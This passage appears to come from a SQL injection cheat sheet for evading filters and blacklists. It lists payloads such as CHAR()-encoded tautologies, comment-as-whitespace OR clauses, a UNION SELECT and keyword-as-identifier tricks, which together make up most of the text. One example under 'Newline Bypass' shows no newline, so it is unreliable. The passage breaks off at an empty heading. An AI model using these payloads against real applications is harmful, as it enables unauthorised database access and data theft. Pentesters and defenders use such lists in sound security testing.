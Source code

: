 - **Using Char Functions:** Using `CHAR()` or similar functions to represent characters as their ASCII values can bypass filters that look for specific strings like `'1=1'`.

```
' OR CHAR(49)=CHAR(49) --
```

## White-Space and Comment Manipulation
Use alternative whitespace or comments to bypass strict filtering.

- **Tab Character as Whitespace:** Using tab (`\t`) or newline (`\n`) characters instead of spaces can bypass filters that don't normalize whitespace.

```
'/**/OR/**/'1'='1

SELECT * FROM users WHERE username = 'admin'OR'1'='1';
```

- **Using Parentheses and Comments:** Wrapping conditions in parentheses and using comments to obfuscate logical operators can bypass simplistic filters.

```
SELECT * FROM users WHERE (username = 'admin')/**/OR/**/('1'='1');
```

- **Newline Bypass:** Placing parts of the payload on different lines can bypass filters that don't handle multi-line inputs properly.

```
SELECT * FROM users WHERE username = 'admin'OR '1'='1';
```

## Bypassing Specific Blacklist Filters
Evade filters that specifically block certain keywords or phrases.

- **Using SQL Keywords in Unusual Places:** Placing SQL keywords like `WHERE` in unexpected places can bypass filters that only look for certain patterns.

```
' UNION SELECT null, null, null WHERE 1=1 --
```

- **Using SQL Keywords as Identifiers:** Using SQL keywords as identifiers (e.g., table or column names) can evade filters that do not account for this possibility.

```
' OR 'SELECT'='SELECT' --
```

- **Using Alternative SQL Syntax:** Using alternative operators (e.g., `<>` instead of `!=`) can bypass filters looking for specific patterns.

```
' OR 1<>0 --
```

## Bypassing Input Length Restrictions
Evade defenses that restrict the length of the input to prevent long payloads.
